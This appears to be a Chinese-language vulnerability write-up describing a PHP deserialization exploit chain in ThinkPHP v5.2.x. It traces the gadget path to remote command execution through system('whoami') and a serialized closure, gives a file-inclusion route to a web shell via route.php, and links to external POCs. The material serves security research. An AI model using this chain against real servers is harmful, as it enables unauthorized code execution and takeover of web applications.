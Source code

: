 ﻿## 测试版本
php v7.2.10
thinkphp v5.2.x
## 思路
前面的利用链借鉴的是v5.1.37中的思路，可以参考文章[thinkphpv5.1.37反序列化利用链挖掘](https://github.com/Dido1960/thinkphp/tree/master/v5.1.37)
```
// 路径
\vendor\topthink\framework\src\think\process\pipes\Windows.php

// 析构方法入手
__destruct() --> removeFiles() --> files_exists($filename)
 
// 可控参数
new windows()->filename
 
 ```


file_exists()函数将参数当作字符串处理，可以触发类的__toString()魔术方法

```
//路径
\vendor\topthink\framework\src\think\model\concern\Conversion.php

// 寻找__toString()的调用链
__toString() --> toJson()--> toArray()
 
//寻找  $可控变量->方法(参数可控) 的点（失败）
$relation->visible($name);
 
// 注意，寻找存在__call()方法且未实现visible()函数的类无果，另辟蹊径，到这之前的利用链与v5.1.37相同
 
```

利用点：think/model/concern/Attribute.php中getValue可函数动态调用函数`$closure($value, $this->data)`，`$closure,$value`参数均可控
```
//路径
\vendor\topthink\framework\src\think\model\concern\Attribute.php

toArray() --> getAttr($key) --> getValue($name, $value, $relation) --> $closure($value, $this->data)

$closure = $this->withAttr[$fieldName] 
$value = $this->data[$fieldName]

$fieldName = getRealFieldName($name)
$name为$this->data中的键，所以要保证$this->withAttr的键与$this->data中的键一致

 
//可控参数
$this->withAttr
$this->data
  
//注意，这里Attribute，Conversion为trait，需要寻找复用这两个trait的类，刚好\think\Model复用了，\think\Model为抽象类，不能直接实例化，寻找到子类think\model\Pivot

 ```

这里`$closure($value, $this->data)`有两个方式进行利用
* 可以利用序列化的匿名函数的姿势进行利用
 ```
$func = function(){phpinfo();};
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this->data);// 这里的参数可以不用管
 
//注意，这里需要引入\Opis\Closure这个第三方库，具体查看官方文档
https://docs.opis.io/closure/3.x/serialize.html
```

* 动态调用函数执行系统命令

```
//动态执行函数system回显
$closure = 'system';
$value = 'whoami';
$data = array("huha"=>"whoami");
$closure($value,$data);
```

最终的反序列利用链
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019092801111542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)

在默认模块中构造利用点
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190925143232558.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
## POC
#### 利用匿名函数
构造POC的时候注意在web根目录下引入第三方\Opis\Closure函数库vendor，才能序列化闭包对象，否则会报错

```
//导入
require __DIR__ . '/vendor/autoload.php';
```
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc

#### 利用动态函数执行
这种方法没有引入外部类的限制，比较实用

https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc3

## 思路二
前面说__call()方法在\think\Request类中找不到了，可以寻找代替Request的其他类，找到了\think\Db.php中的__call方法
 

```
public function __call($method, $args)
{
    $class = $this->config['query'];
 
    $query = new $class($this->connection);
 
    return call_user_func_array([$query, $method], $args);
}
```

 

 
因为在构造类的时候变量均可控，所以在这里可以调用类的方法，think\Url中存在文件包含
 
 

```
public function __construct(App $app, array $config = [])
{
    $this->app    = $app;
    $this->config = $config;
 
    if (is_file($app->getRuntimePath() . 'route.php')) {
        // 读取路由映射文件
        $app->route->import(include $app->getRuntimePath() . 'route.php');
    }
}
```

如果服务器可上传文件，在知道路径的情况下就可以getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190929013447152.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
本地测试，在D盘目录添加route.php文件

```
<?php
system('ls');
?>
```
## POC2
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc2

## 参考文章
[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)

